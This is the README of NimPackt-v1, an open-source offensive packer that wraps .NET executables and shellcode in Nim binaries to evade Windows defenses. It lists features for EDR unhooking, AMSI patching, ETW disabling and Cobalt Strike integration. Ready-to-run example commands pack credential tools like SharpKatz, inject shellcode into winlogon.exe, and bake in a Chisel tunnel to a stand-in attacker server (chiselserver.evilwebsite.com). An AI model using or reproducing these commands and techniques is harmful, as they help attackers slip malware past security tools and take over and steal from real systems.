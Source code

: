 ![NimPackt](assets/Nimpackt-Logo-Blacktext.png)

# A Nim-based packer for .NET executables and raw shellcode

*By **Cas van Cooten** ([@chvancooten](https://twitter.com/chvancooten))*

*With special thanks to Marcello Salvati ([@byt3bl33der](https://twitter.com/byt3bl33d3r)) and Fabian Mosch ([@S3cur3Th1sSh1t](https://twitter.com/ShitSecure))*

## Description

**Update:** _NimPackt-v1 is among the worst code I have ever written (I was just starting out learning Nim). Because of this, I started on a full rewrite of NimPackt, dubbed 'NimPackt-NG' (currently still private). With this re-write, I decided to open-source the old branch ("NimPackt-v1"). As such, this branch is no longer maintained and comes without any form of warranty or support. PRs are always welcome, of course :)_

NimPackt is a Nim-based packer for .NET (C#) executables and shellcode targeting Windows. It automatically wraps the payload in a Nim binary that is compiled to Native C and as such harder to detect and reverse engineer. There are two main execution methods: 
- `Execute-Assembly` re-packs a .NET executable and runs it, optionally applying evasive measures such as API unhooking, AMSI patching, or disabling ETW.
- `Shinject` takes raw a .bin file with raw, position-independent shellcode and executes it locally or in a remote process, optionally using direct syscalls to trigger the shellcode or patching API hooks to evade EDR.

Currently, NimPackt has the following features.

- Uses static syscalls to patch execute to evade EDR
- Unhooks user-mode APIs for spawned thread by refreshing `NTDLL.dll` using [ShellyCoat](https://github.com/slaeryan/AQUARMOURY/tree/master/Shellycoat)
- Patches Event Tracing for Windows (ETW) 
- Patches the Anti-Malware Scan Interface (AMSI)
- AES-encrypts payload with random key to prevent static analysis or fingerprinting
- Compiles to `exe` or `dll`
- Supports cross-platform compilation (from both Linux and Windows)
- Integrates with CobaltStrike for ezpz payload generation 😎

A great source for C#-based binaries for offensive tooling can be found [here](https://github.com/Flangvik/SharpCollection). It is highly recommended to compile the C# binaries yourself. Even though embedded binaries are encrypted, you should obfuscate sensitive binaries (such as Mimikatz) to lower the risk of detection.

## Installation

> If you are having issues compiling the binary with Syscalls, try downgrading your GCC to version 8.1.0 (especially on Windows). ALWAYS test generated payloads!

On **Linux**, simply install the required packages and use the Nimble package installer to install the required packages and Python libraries.

```
sudo apt install -y python3 mingw-w64 nim
pip3 install pycryptodome argparse
nimble install winim nimcrypto
```

On **Windows**, execute the Nim installer from [here](https://nim-lang.org/install_windows.html). Make sure to install `mingw` and set the path values correctly using the provided `finish.exe` utility. If you don't have Python3 install that, then install the required packages as follows.

```
nimble install winim nimcrypto
pip3 install pycryptodome argparse
```

### Docker

The Docker image [chvancooten/nimbuild](https://hub.docker.com/r/chvancooten/nimbuild) can be used to compile NimPackt-v1 binaries. Using Docker is easy and avoids dependency issues, as all required dependencies are pre-installed in this container.

To use it, install Docker for your OS and ensure the input shellcode is in the current folder. Then, start the compilation in a container as follows.

```bash
docker run --rm -v `pwd`:/usr/src/np -w /usr/src/np chvancooten/nimbuild python3 NimPackt.py -e shinject -i sc.bin
```

### CobaltStrike Plugin 

To install the CobaltStrike plugin, select `Cobalt Strike` -> `Script Manager` from the menu bar, and select `Load`. Make sure to load the `.cna` file from it's original location, otherwise it won't be able to find the NimPackt script files!

![NimPackt](assets/cna_plugin.png)


## Usage

```
usage: NimPackt.py [-h] -e EXECUTIONMODE -i INPUTFILE [-a ARGUMENTS] [-na] [-ne] [-r]
                   [-t INJECTTARGET] [-E] [-o OUTPUTFILE] [-nu] [-ns] [-f FILETYPE] [-s] [-32] [-S]
                   [-d] [-v] [-V]

required arguments:
  -e EXECUTIONMODE, --executionmode EXECUTIONMODE
                        Execution mode of the packer. Supports "execute-assembly" or "shinject"
  -i INPUTFILE, --inputfile INPUTFILE
                        C# .NET binary executable (.exe) or shellcode (.bin) to wrap

execute-assembly arguments:
  -a ARGUMENTS, --arguments ARGUMENTS
                        Arguments to "bake into" the wrapped binary, or "PASSTHRU" to accept run-
                        time arguments (default)
  -na, --nopatchamsi    Do NOT patch (disable) the Anti-Malware Scan Interface (AMSI)
  -ne, --nodisableetw   Do NOT disable Event Tracing for Windows (ETW)

shinject arguments:
  -r, --remote          Inject shellcode into remote process (default false)
  -t INJECTTARGET, --target INJECTTARGET
                        Remote thread targeted for remote process injection
  -E, --existing        Remote inject into existing process rather than a newly spawned one (default
                        false, implies -r) (WARNING: VOLATILE)

other arguments:
  -o OUTPUTFILE, --outfile OUTPUTFILE
                        Filename of the output file (e.g. "LegitBinary"). Specify WITHOUT extension
                        or path. This property will be stored in the output binary as the original
                        filename
  -nu, --nounhook       Do NOT unhook user-mode API hooks in the target process by loading a fresh
                        NTDLL.dll
  -ns, --nosyscalls     Do NOT use direct syscalls (Windows generation 7-10) instead of high-level
                        APIs to evade EDR
  -f FILETYPE, --filetype FILETYPE
                        Filetype to compile ("exe" or "dll", default: "exe")
  -s, --sleep           Sleep for approx. 30 seconds by calculating primes
  -32, --32bit          Compile in 32-bit mode (untested)
  -S, --showConsole     Show a console window with the app's output when running
  -d, --debug           Enable debug mode (retains .nim source file in output folder)
  -v, --verbose         Print debug messages of the wrapped binary at runtime
  -V, --version         show program's version number and exit
```

**Examples:**

```bash
# Pack SharpKatz to accept arguments at runtime, patching NTDLL hooks, AMSI, and ETW while printing verbose messages to a visible console at runtime
python3 ./NimPackt.py -e execute-assembly -i bins/SharpKatz-x64.exe -S -v

# Pack Seatbelt as a DLL file with baked-in arguments (note: write to outfile because stdout is not available for DLLs)
python3 ./NimPackt.py -f dll -e execute-assembly -i Seatbelt.exe -a "-group=all -outputfile=c:\users\public\downloads\sb.txt"

# Pack SharpChisel with a built-in ChiselChief connection string, do not unhook, patch AMSI, or disable ETW, hide the application window at runtime
python3 NimPackt.py -nu -na -ne -e execute-assembly -i bins/SharpChisel.exe -a 'client --keepalive 25s --max-retry-interval 25s https://chiselserver.evilwebsite.com R:10073:socks'

# Pack raw shellcode to DLL file that executes in the local thread through direct syscalls, unhooking NTDLL as well
# Shellcode generated with 'msfvenom -p windows/x64/exec CMD=calc.exe -f raw -o /tmp/calc.bin'
python3 NimPackt.py -i calc.bin -e shinject -f dll

# Pack raw shellcode to execute in a newly spawned Calculator thread in an invisible window
python3 NimPackt.py -i calc.bin -e shinject -t "calc.exe"

# Pack raw shellcode to execute in the existing Winlogon process (first PID with name 'winlogon.exe'), do not use direct syscalls or unhook NTDLL
python3 NimPackt.py -i calc.bin -e shinject -r -E -t "winlogon.exe" -nu -ns
```

Binaries are stored in the `output` subfolder of your installation directory. Generated `dll` files can be executed as follows (entry point can be changed in the Nim template):

```powershell
rundll32 exampleShinjectNimPackt.dll,IconSrv
```